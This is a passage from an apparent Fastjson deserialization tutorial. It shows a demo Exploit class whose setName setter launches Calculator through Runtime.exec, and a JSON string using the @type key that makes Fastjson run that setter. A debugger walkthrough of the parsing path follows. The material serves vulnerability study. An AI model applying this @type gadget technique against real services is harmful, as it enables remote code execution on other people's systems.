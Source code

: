 ```java
        System.out.println("getName");
        return name;
    }

    public void setName(String name) throws IOException {
        System.out.println("setName");
        this.name = name;
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

 - UnExploit.java

```java
package org.h3rmesk1t.fastjson.demo;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 9:09 pm
 */
public class UnExploit {

    public static void main(String[] args) throws IOException {

// Exploit exp = new Exploit();
// exp.setName("h3rmesk1t");
// String jsonString = JSON.toJSONString(exp, SerializerFeature.WriteClassName);
// System.out.println(jsonString);

        String jsonString = "{\"@type\":\"org.h3rmesk1t.fastjson.demo.Exploit\",\"name\":\"h3rmesk1t\"}";
        System.out.println(JSON.parseObject(jsonString));
    }
}
```

![exploit](./images/5.png)

### Deserialization vulnerability process analysis
Set a breakpoint at `parseObject`, follow up on the `Feature#parseObject` method, and the `Feature#parse` method will be called in the first line.

![Feature#parseObject](./images/6.png)

Follow up on the `Feature#parse` method and continue to follow up on `parse`. Here, a `DefaultJSONParser` object will be created. In this process, there will be a judgment operation to determine whether the parsed string is `{` or `[`, and set the `token` value according to the judgment result. After creating the `DefaultJSONParser` object, enter the `DefaultJSONParser#parse` method.
